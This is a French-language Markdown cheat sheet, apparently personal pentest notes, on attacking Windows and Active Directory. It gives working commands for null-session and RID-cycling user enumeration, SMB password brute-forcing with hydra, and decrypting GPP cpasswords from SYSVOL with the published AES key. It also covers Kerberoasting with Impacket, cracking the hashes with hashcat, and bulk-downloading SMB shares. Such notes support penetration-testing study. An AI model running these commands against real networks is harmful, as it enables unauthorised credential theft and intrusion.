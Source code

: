 # Windows

- [PowerShell](#powershell)
- [Enumération](#enumération)
- [Mots de passe](#mots-de-passe)
  - [Mot de passe dans SYSVOL](#mot-de-passe-dans-sysvol)
  - [Kerberoast](#kerberoast)
- [Partage](#partage)
- [Liens utiles](#liens-utiles)

---

> *Dans le doute reboot*, Rowan Atkinson

## PowerShell

```powershell
# afficher en arborescence
tree /f

# lien symbolique
new-item -itemtype symboliclink -path . -name settings.json -value "C:\Users\Kamil\OneDrive\Windows Terminal\settings.json"
```

## Enumération

Pour obtenir des informations sur un domaine :
```bash
# null session
enum4linux -a 192.168.10.1 > enum1.txt
# énumérer les utilisateurs avec un RID cycling sur un intervalle plus grand
enum4linux -U -R 500-2000 192.168.10.1 | grep -v unknown > enum2.txt
# avec des credentials
enum4linux -u test -p test -a 192.168.10.1 > enum_as_test.txt
```

## Mots de passe

Pour se connecter en local et pas sur le domaine : `.\username`

Bruteforce sur le réseau (pas du tout discret) :
```bash
hydra -L usernames.txt -P rockyou.txt 192.168.10.1 smb
```

### Mot de passe dans SYSVOL

Pour déchiffrer le cpassword d'un compte défini dans une GPO sur un partage :
- utiliser la recette [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)AES_Decrypt(%7B'option':'Hex','string':'4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b'%7D,%7B'option':'Hex','string':'00000000000000000000000000000000'%7D,'CBC','Raw','Raw',%7B'option':'Hex','string':''%7D,%7B'option':'Hex','string':''%7D))
- ou [gpp-decrypt](https://github.com/t0thkr1s/gpp-decrypt) si besoin offline

Clé AES256 donnée par [Microsoft](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be) :
```bash
# AES256 cipher key
4e 99 06 e8 fc b6 6c c9 fa f4 93 10 62 0f fe e8 f4 96 e8 06 cc 05 79 90 20 9b 09 a4 33 b6 6c 1b
# Initialisation Vector
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
```

Source : https://adsecurity.org/?p=2288

### Kerberoast

Avec [Impacket](https://github.com/SecureAuthCorp/impacket) :
```bash
python3 ./GetUserSPNs.py -request -dc-ip 192.168.10.1 MIDGAR.LAN/scarlet:password -outputfile kerberoast.hash
```

Pour casser ces hash :
```bash
hashcat -m 13100 -a 0 kerberoast.hash rockyou.txt -o output.txt
```

## Partage

Pour récupérer tous les fichiers d'un partage, et les étudier en local :
```powershell
smb: \> recurse
smb: \> prompt
smb: \> mget *
```

## Liens utiles

https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet

https://www.hackingarticles.in/a-little-guide-to-smb-enumeration/

https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html

https://medium.com/@riccardo.ancarani94/exploiting-unconstrained-delegation-a81eabbd6976
